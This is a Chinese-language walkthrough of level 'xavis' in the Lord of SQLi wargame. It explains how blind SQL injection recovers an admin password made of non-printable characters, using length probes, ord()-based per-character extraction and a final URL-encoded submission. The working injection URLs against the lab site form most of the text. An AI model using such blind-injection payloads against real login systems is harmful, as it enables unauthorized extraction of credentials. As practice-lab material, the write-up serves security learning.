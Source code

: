 Q19_xavis
===

發現長度有點大...
所以不可能手動找了，直接使用Burp Suite。
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw='|| (id='admin' %26%26 length(pw) >16)%23
```
![](https://i.imgur.com/MuXy9dV.png)

得到40位數的0
顯然這並不是密碼，真正的密碼可能屬於**不可視字元**。

此時非得自己寫一個腳本來跑了
跑完腳本之後得到
```
0xb80xfc0xe50xb00xe60xf00xe50xa10xa40xbb
```
透過線上工具轉成:
```
¸üå°æðå¡¤»
```
送出:
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=¸üå°æðå¡¤»
```
但是卻還是過不了...
經過了解，以`u`來說`u`與`ü`會被視為同樣字元，就跟SQL不會嚴格審視大小寫一樣。
所以腳本在跑的時候只要是`u`，頁面就會顯示 Hello admin，所以造成誤判，並與實際的pw不相同。

為了解決這個問題使用 ord 函數，來抓取確切的字元轉為ASCII 的值。
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27%20or%20id=%27admin%27+and+ord(right(left(pw,2),1))=249%23
```

![](https://i.imgur.com/Mm1q0af.png)

結果:
![](https://i.imgur.com/eQdKAnh.png)

```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%C2%B8%C3%B9%C3%85%C2%B0%C3%86%C3%90%C3%84%C2%A1%C2%A4%C2%BB
```

補充:
至於UrlEncode後，會出現%c2%c3這個也不是很清楚，剛開始單純以為可以直接透過%b8等方式直接組Payload後送出，但也行不通。
